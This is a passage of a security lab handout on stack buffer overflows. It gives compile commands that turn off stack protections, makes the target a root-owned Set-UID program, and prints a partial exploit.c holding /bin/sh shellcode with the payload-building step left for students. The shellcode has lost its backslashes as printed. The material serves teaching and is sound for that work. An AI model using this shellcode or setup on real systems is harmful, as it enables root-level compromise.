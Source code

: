 Compilation.       To compile the above vulnerable program, do not forget to turn off the StackGuard and the non-executable stack protections using the -fno-stack-protector and “-z execstack” options. After the compilation, we need to make the program a root-owned Set-UID program. We can achieve this by first change the ownership of the program to root (Line À), and then change the permission to 4755 to enable the Set-UID bit (Line Á). It should be noted that changing ownership must be done before turning on the Set-UID bit, because ownership change will cause the Set-UID bit to be turned off.

// Note: N should be replaced by the value set by the instructor

$ gcc -DBUF_SIZE=N -o stack -z execstack -fno-stack-protector stack.c

$ sudo chown root stack                                            À

$ sudo chmod 4755 stack                                           Á

For instructors. To prevent students from using the solutions from the past (or from those posted on the Internet), instructors can change the value for BUFSIZE by requiring students to compile the server code using a different BUFSIZE value. Without the -DBUFSIZE option, BUFSIZE is set to the default value 24 (defined in the program). When this value changes, the layout of the stack will change, and the solution will be different.

<h2>1.4        Task 2: Exploiting the Vulnerability</h2>

We provide you with a partially completed exploit code called “exploit.c”. The goal of this code is to construct contents for badfile. In this code, the shellcode is given to you. You need to develop the rest.

/* exploit.c */

/* A program that creates a file containing code for launching shell */

#include &lt;stdlib.h&gt;

#include &lt;stdio.h&gt;

#include &lt;string.h&gt;

<table width="624">

 <tbody>

  <tr>

   <td width="624">char shellcode[] =“x31xc0”                                    /* Line 1: xorl                      %eax,%eax                                        */“x50”                                             /* Line 2: pushl                 %eax                                                    */“x68″”//sh”                                /* Line 3: pushl                    $0x68732f2f                                    */“x68″”/bin”                                /* Line 4: pushl                    $0x6e69622f                                   */“x89xe3”                                   /* Line 5: movl                     %esp,%ebx                                       */“x50”                                             /* Line 6: pushl                 %eax                                                    */“x53”                                             /* Line 7: pushl                 %ebx                                                   */“x89xe1”                                   /* Line 8: movl                     %esp,%ecx                                        */“x99”                                            /* Line 9: cdq                                                                                   */“xb0x0b”                                 /* Line 10: movb                    $0x0b,%al                                        */“xcdx80”                                   /* Line 11: int                      $0x80                                                 */;void main(int argc, char **argv){ char buffer[517]; FILE *badfile;/* Initialize buffer with 0x90 (NOP instruction) */ memset(&amp;buffer, 0x90, 517);/* You need to fill the buffer with appropriate contents here */ /* … Put your code here … *//* Save the contents to the file “badfile” */ badfile = fopen(“./badfile”, “w”); fwrite(buffer, 517, 1, badfile); fclose(badfile);}</td>
